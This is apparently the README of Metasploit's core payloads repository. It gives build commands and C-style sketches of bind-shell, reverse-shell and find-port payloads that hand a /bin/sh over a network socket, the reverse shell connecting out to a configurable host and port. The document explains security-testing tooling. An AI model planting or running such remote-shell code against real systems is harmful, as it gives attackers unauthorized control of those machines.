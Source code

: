 metasploit-payloads
===================

Metasploit's core payloads.


Installing
----------

To build and install the Metasploit's core payloads for your operating
system and architecture as header files, at the **Terminal** or **Command
Prompt**, type

    make && make install

To build and install them as payload modules into your Metasploit's
installation yourself, at the **Terminal** or **Command Prompt**, type

    make && make install-payloads DESTDIR=/path/to/metasploit

Where /path/to/metasploit is the path to your Metasploit's installation
directory. Note that these payloads are already included in Metasploit.


Payload
-------

A payload is the actual code that executes on the target system as the
result of a successful exploitation attempt.


Payload Types
-------------

A payload can be as simple in functionality as a bind shell payload and a
reverse shell payload, or more complex such as the Meterpreter. This section
discusses in more detail the functionality of the Metasploit's core
payloads. Each of the operating systems and architectures supported by
Metasploit is expected to have at least the following payload types:

### Command Shell, Bind TCP Inline (shell_bind_tcp)

The shell_bind_tcp is more or less equivalent to the following C programming
language statements:

    s = socket(AF_INET, SOCK_STREAM, 0);
    bind(s, &sin, sizeof(sin));
    listen(s, 0);
    i = accept(s, NULL, NULL);
    for (j = 2; j >= 0; j--)
        dup2(i, j);
    execl("/bin/sh", "/bin/sh", NULL);

The code above creates a listening TCP socket on the specified port. Upon
accepting a connection, it duplicates the newly created socket descriptor to
the process standard input, output, and error descriptors (i.e., 0, 1, and
2). The port number to which the socket is bound is defined at the LPORT
offset of the shell_bind_tcp (and its value is set to 4444 by default).

### Command Shell, Reverse TCP Inline (shell_reverse_tcp)

The shell_reverse_tcp is more or less equivalent to the following C
programming language statements:

    i = socket(AF_INET, SOCK_STREAM, 0);
    connect(i, &sin, sizeof(sin));
    for (j = 2; j >= 0; j--)
        dup2(i, j);
    execl("/bin/sh", "/bin/sh", NULL);

The code above connects a TCP socket to the specified host on the specified
port. Upon connecting, it duplicates the socket descriptor to the process
standard input, output, and error descriptors (i.e., 0, 1, and 2). The host
address and port number to which the socket is connected is defined at the
LHOST and LPORT offsets of the shell_reverse_tcp (and their values are set
to 127.0.0.1 and 4444 by default).

### Command Shell, Find Port Inline (shell_find_port)

The shell_find_port routine is more or less equivalent to the following C
programming language statements:

    sin_len = sizeof(sin);
    for (i = 0;; i++) {
        getpeername(i, &sin, &sin_len);
        if (*((unsigned short)&sin[2]) == htons(port))
            break;
    }
    for (j = 2; j >= 0; j--)
        dup2(i, j);
    execl("/bin/sh", "/bin/sh", NULL);

The code above walks the process descriptor table searching for the socket
descriptor identified by the port number at CPORT offset of the
shell_find_port. Upon locating, it duplicates the socket descriptor to the
process standard input, output, and error descriptors (i.e., 0, 1, and 2).
The port number by which the socket is identified is defined at the CPORT
offset of the shell_find_port (and its value is set to 4444 by default).
